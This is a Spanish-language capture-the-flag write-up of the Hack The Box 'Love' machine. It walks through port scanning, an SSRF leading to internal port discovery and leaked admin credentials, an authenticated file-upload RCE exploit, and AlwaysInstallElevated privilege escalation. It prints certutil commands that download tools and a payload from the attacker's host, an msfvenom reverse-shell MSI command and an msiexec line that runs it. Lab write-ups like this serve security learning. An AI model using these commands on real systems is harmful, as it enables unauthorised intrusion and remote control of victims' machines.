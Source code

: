 ```yaml
---
title: Love Writeup
author: d0x
date: 2025-04-21
categories: [Writeup, HTB]
tags: [Linux, CTF, Easy, openssl, SSRF, internal port discovery, metasploit]
---
```


![image](https://github.com/user-attachments/assets/00062550-916b-41a8-8d63-5cd491c00608)

```bash
# Nmap 7.95 scan initiated Sat Apr 19 02:08:10 2025 as: /usr/lib/nmap/nmap --privileged -p- --open -sS --min-rate 5000 -n -vvv -Pn -oG ports 10.10.10.239
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.239 ()   Status: Up
Host: 10.10.10.239 ()   Ports: 80/open/tcp//http///, 135/open/tcp//msrpc///, 139/open/tcp//netbios-ssn///, 443/open/tcp//https///, 445/open/tcp//microsoft-ds///, 3306/open/tcp//mysql///, 5000/open/tcp//upnp///, 5040/open/tcp/////, 5985/open/tcp//wsman///, 5986/open/tcp//wsmans///, 7680/open/tcp//pando-pub///, 47001/open/tcp//winrm///, 49664/open/tcp/////, 49665/open/tcp/////, 49666/open/tcp/////, 49667/open/tcp/////, 49668/open/tcp/////, 49669/open/tcp/////, 49670/open/tcp/////
# Nmap done at Sat Apr 19 02:08:49 2025 -- 1 IP address (1 host up) scanned in 38.40 seconds
```

```bash
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: Voting System using PHP
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
| tls-alpn: 
|_  http/1.1
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
445/tcp   open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB 10.3.24 or later (unauthorized)
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
5040/tcp  open  unknown
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
|_ssl-date: 2025-04-19T00:35:41+00:00; +21m34s from scanner time.
| tls-alpn: 
|_  http/1.1
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7680/tcp  open  pando-pub?
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-04-18T17:35:26-07:00
|_clock-skew: mean: 2h06m35s, deviation: 3h30m02s, median: 21m33s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-04-19T00:35:28
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr 19 02:14:09 2025 -- 1 IP address (1 host up) scanned in 190.70 seconds
```

Realizando fuzzing veo que estos directorios me estan devolviendo un status-code 301, por lo que podria tratar de acceder.

```bash
Images             [Status: 301, Size: 338, Words: 22, Lines: 10, Duration: 194ms]
admin              [Status: 301, Size: 337, Words: 22, Lines: 10, Duration: 195ms]
plugins            [Status: 301, Size: 339, Words: 22, Lines: 10, Duration: 193ms]
includes           [Status: 301, Size: 340, Words: 22, Lines: 10, Duration: 200ms]
dist               [Status: 301, Size: 336, Words: 22, Lines: 10, Duration: 251ms]
licenses           [Status: 403, Size: 421, Words: 37, Lines: 12, Duration: 334ms]
IMAGES             [Status: 301, Size: 338, Words: 22, Lines: 10, Duration: 195ms]
```

/admin


![image](https://github.com/user-attachments/assets/ef3d3c0e-44cb-4553-bd26-6cb129f210dc)

Veo si hay algun exploit referente a voting system en exploit-db


![image](https://github.com/user-attachments/assets/878f73ab-4f03-476d-a75e-fea7ebc2a545)

Tambien de los puertos escaneado, podriamos ver si por https vemos lo mismo que por el puerto 80.
Ademas en el common name estamos viendo algo

```bash
commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
```
podriamos probar a conectarnos por openssl a la ip como cliente para inspeccionar el certificado.
```bash
openssl s_client -connect $IP:443  
```

```bash
subject=C=in, ST=m, L=norway, O=ValentineCorp, OU=love.htb, CN=staging.love.htb, emailAddress=roy@love.htb
```

Vemos que se esta aplicando virtual hosting en el cual tenemos dos DNS para meter dentro del /etc/hosts para que pueda resolver ese dns
Ahora si vamos a love.htb, vemos que me esta cargando lo mismo que poniendo solo la ip, asique ahora probamos ingresando a staging.love.htb a ver que hay.

![image](https://github.com/user-attachments/assets/c2e220e9-7e0a-49f8-9210-8e8b3a92c9c6)

probamos el submit pero no hace nada.
Pruebo crearme un archivo en mi mauqina con contenido, y exponerlo mediante un servidor que levanto en python y ver si al poner la url en el scanner este me llega la peticion, en ese caso estariamos ante un SSRF.

![image](https://github.com/user-attachments/assets/dc60c428-307c-41e0-ad37-dc6f9df21648)

Por lo tanto vemos que el status code es 200 por lo que la peticion se esta realizando correctamente a mi ip, y se esta mostrando el contenido de file en la web. Ahora podria probar mediante un archivo con codigo php ver si me lo ejecuta.
Veo que en la web no me esta mostrando nada, y si vemos el codigo fuente de la web vemos el codigo php en el html, por lo cual, no me lo esta interpretando.

![image](https://github.com/user-attachments/assets/1b9fd7c2-094a-41b3-9dcf-b2b8d601bd46)

Puebo con localhost, y efectivamente estoy viendo la web que esta expuesta del lado del cliente por el puerto 80, la estoy viendo dentro de la maquina victima. 
![image](https://github.com/user-attachments/assets/69dc068a-69a3-4ce0-955f-ee6e3fa55810)

Lo proximo que haria seria ver si del SSRF puedo hacer un Internal Port Discovery, para ver los puertos que no son accesibles para mi, pero si pueden estar habilitados para llamadas desde dentro. Por ejemplo, en el escaneo del principio

```bash
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: 403 Forbidden
```
veo que el puerto 5000 no es accesible desde fuera, me esta devolviendo un 403. Veamos si puedo acceder por la web, mediante localhost:5000

![image](https://github.com/user-attachments/assets/8e065862-8393-4393-90a3-5a4173995845)
Bueno vemos una credencial ahi para el panel supongo yo que era /admin

```bash
admin: @LoveIsInTheAir!!!!
```
y efectivamente ingresamos al panel.
![image](https://github.com/user-attachments/assets/0c4654a2-7081-487b-82f3-67a4e6643c1a)

Ahora que estamos autenticados, probemos con el exploit siguiente.

```bash
Voting System 1.0 - File Upload RCE (Authenticated Remote Code Execution)        | php/webapps/49445.py
```
al ejecutar el script no estoy recibiendo nada. para debuggear y ver que es lo que esta pasando, podemos usar el burp como intermediario y ver las peticiones que se estan realizando para ver el porque no estan llegando.
![image](https://github.com/user-attachments/assets/14ca66cc-f0c4-4b72-a672-b18628df4de9)

al correr nuevamente el script, vemos lo siguiente
![image](https://github.com/user-attachments/assets/98d1b418-ad43-41d2-ac02-6437c0fd02a0)

en burp vemos que la peticion que se esta hacciendo es a /votesystem/admin/index.php
y esta devolviendo un 404. porque nosotros no estamos en /votesystem, estamos en /admin, por lo tanto habria que modificar el script para quitar el /votesystem y correrlo nuevamente.

y ganamos la shell
![image](https://github.com/user-attachments/assets/612ed1a2-80bb-4c0c-abc6-9d5a73b4deee)
Al dirigirnos a c:\Users\Phoebe\Desktop vamos a encontrar la primer flag de la maquina.

----------

En el directorio Temp vamos a traernos winpeas para analizar el sistema, levanto en mi maquina un servidor en python donde tengo el archivo .exe y dentro de la maquina victima
```bash
certutil.exe -f -urlcache -split http://10.10.16.3/winPEASx64.exe winPEAS.exe
```
para traerme el archivo a la maquina victima.
con winpeas vemos lo siguiente:

```bash
Checking AlwaysInstallElevated
  https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#alwaysinstallelevated                                                                                                              
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!
```
ahora en mi terminal ejecuto lo siguiente
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.3 LPORT=443 --platform windows -a x64 -f msi -o reverse.msi
```

en LHOST pongo mi ip y LPORT el puerto por donde voy a querer entablar la shell, plataforma windows, ya que es una maquina windows, y la flag -a para especificar la arquitectura que en este caso es x64.
al ejecutar esto en mi terminal me crea un archivo .msi, me levanto mi servidor en python para exponer el archivo, y dentro de la maquina windows, ejecuto 
```bash
certutil.exe -f -urlcache -split http://10.10.16.3/reverse.msi reverse.msi
```

cuando ya tengo el archivo en la maquina solo queda ejecutarlo de la siguiente manera.
en mi terminal me pongo en escucha por el puerto que especifique anteriormente, en este caso el 443, y dentro de la maquina windows 
```bash
msiexec /quiet /qn /i reverse.msi
```

al ejecutarse gano la shell como administrator y capturo la ultima flag.






